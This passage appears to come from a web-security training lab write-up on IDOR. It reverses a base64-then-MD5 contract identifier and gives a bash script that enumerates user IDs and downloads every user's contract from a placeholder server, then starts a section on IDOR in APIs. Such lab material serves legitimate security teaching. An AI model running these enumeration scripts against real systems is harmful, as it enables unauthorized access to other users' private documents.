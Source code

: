 The function:

<pre>javascript
Copy
Edit
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}</pre>

It base64-encodes the UID, then hashes it with MD5.

Example for UID=1:

`echo -n 1 | base64 -w 0 | md5sum`

`cdd96d3cc73d1dbdaffa03cc6cd7339b`

This matches the request — we’ve reversed the hashing process.

**Step 3 – Mass Enumeration**

We generate hashes for UIDs 1–10:

<pre>for i in {1..10}; do
    echo -n $i | base64 -w 0 | md5sum | tr -d ' -'
done</pre>

Sample output:

`cdd96d3cc73d1dbdaffa03cc6cd7339b`
`0b7e7dee87b1c3b98e72131173dfbbbf`
...

**Step 4 – Downloading All Contracts**


<pre>#!/bin/bash
for i in {1..10}; do
    hash=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
    curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
done</pre>

Running it downloads all contracts:

contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
...


# IDOR in Insecure APIs

So far, we’ve used IDOR to access files and resources.
But IDOR can also exist in function calls and APIs, allowing actions as other users — e.g., changing their details, resetting passwords, or making purchases.

**Information Disclosure vs. Insecure Function Calls**
